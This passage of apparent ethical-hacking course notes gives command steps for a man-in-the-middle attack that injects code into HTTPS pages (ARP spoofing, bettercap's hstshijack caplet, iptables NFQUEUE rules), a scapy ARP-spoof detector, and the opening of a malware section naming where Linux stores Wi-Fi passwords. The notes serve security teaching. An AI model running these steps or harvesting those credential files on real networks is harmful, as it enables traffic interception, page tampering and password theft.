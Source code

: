 ### Injecting code in https pages
1. Run arp_spoof.py to make attaker MITM.
2. Execute the command
    > bettercap -iface eth0 -caplet /usr/share/bettercap/caplets/hstshijack/hstshijack.cap
3. Run the following commands:
    > iptables -I INPUT -j NFQUEUE --queue-num 0
    > iptables -I OUTPUT -j NFQUEUE --queue-num 0 
4. Run code_injection_https.py 


# Section 11: Writing an ARP Spoof detector
```python
#!/usr/bin/env python3

import scapy.all as scapy

def get_mac(ip)-> str:
   arp_request = scapy.ARP(pdst = ip)
   broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
   arp_request_broadcast = broadcast/arp_request
   answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]
   return answered_list[0][1].hwsrc

def sniffer(interface):
    scapy.sniff(iface=interface, store=False, prn=process_sniffed_packet)

def process_sniffed_packet(packet):
    if packet.haslayer(scapy.ARP) and packet[scapy.ARP].op == 2:
        try:
            real_mac = get_mac(packet[scapy.ARP].psrc)
            response_mac = packet[scapy.ARP].hwsrc
            if real_mac != response_mac:
                print(f"[+] You're under attack !!")
        except IndexError:
            pass
        #print(packet.show())

       
        
    

sniffer("eth0")
```

# Section 12: Writing Malware
#### Getting Wifi Passwords on Linux
On Linux, all previously connected networks are located in the folder 
> /etc/NetworkManager/system-connections as INI files. So we just have to read the files and print the information.
